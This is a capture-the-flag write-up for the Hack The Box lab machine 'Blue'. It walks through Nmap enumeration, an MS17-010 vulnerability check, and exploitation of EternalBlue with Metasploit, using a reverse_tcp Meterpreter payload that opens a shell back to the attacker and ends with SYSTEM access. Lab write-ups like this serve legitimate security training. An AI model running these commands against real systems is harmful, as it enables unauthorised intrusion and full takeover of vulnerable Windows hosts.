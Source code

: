 # Blue

This is the write-up for the box Blue that got retired at the 13th January 2018.
My IP address was 10.10.14.24 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.40    blue.htb
```

## Enumeration

Starting with a Nmap scan:

```markdown
nmap -sC -sV -o nmap/blue.nmap 10.10.10.40
```

```markdown
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows
```

## Checking SMB (Port 445)

This is a Windows 7 machine with SMB active and as the name suggests, it is probably vulnerable to the **EternalBlue** exploit.
Also known as **CVE-2017-0144** and **MS17-010**.

Checking if the statement is true with an Nmap script:
```markdown
nmap --script=smb-vuln-ms17-010 10.10.10.40
```

```markdown
Host script results:
| smb-vuln-ms17-010:
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
```

The check is successful and outputs that the box is vulnerable to that particular vulnerability.

### Exploiting the vulnerability

To exploit the vulnerability, we will use **Metasploit** as it has this exploit in the database.
```markdown
msf5 > use exploit/windows/smb/ms17_010_eternalblue

msf5 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 10.10.10.40
msf5 exploit(windows/smb/ms17_010_eternalblue) > set payload windows/x64/meterpreter/reverse_tcp
msf5 exploit(windows/smb/ms17_010_eternalblue) > set LHOST tun0

msf5 exploit(windows/smb/ms17_010_eternalblue) > exploit
```

After running this, it gave us a _Meterpreter_ session and it is possible to start a shell on the box.
```markdown
meterpreter > shell
```

When running `whoami` it tells us that we are _NT Authority\SYSTEM_ and thus have the highest privileges on the box!

